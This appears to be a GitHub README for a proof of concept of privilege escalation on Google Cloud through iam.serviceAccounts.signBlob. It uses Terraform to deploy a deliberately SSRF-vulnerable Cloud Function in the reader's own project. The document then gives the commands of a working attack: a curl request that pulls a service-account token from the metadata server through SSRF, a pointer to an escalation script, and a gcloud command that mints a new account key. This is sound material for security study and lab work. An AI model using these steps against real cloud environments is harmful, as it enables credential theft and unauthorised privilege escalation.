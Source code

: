 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and choose it as current working one.
2. Enable [Cloud Resourse Manager API](https://console.cloud.google.com/apis/library/cloudresourcemanager.googleapis.com) for your project.
3. Open Cloud Shell and ensure that the current project is the new created one.
4. Download Terraform script and setup a vulnerable to SSRF Cloud Function:
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terraform init -upgrade
terraform apply --var gcp_project_id=YOUR_GCP_PROJECT_ID
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```bash
curl https://YOUR.CLOUD.FUNCTION.DOMAIN/?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token&auth=Metadata-Flavor:%20Google
```
2. The Terraform output you can also find `App Engine` and `Compute Engine` default service accounts which were created automatically during the Cloud Function creation without explicit instructions. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).
3. To ensure that you obtained the priviliged service account, generate new service account key via next `gcloud` command:
```bash
gcloud iam service-accounts keys create service_account_key.json \
    --iam-account=[DEFAULT_SERVICE_ACCOUNT_EMAIL] --access-token-file=[FILE_WITH_TOKEN]
```
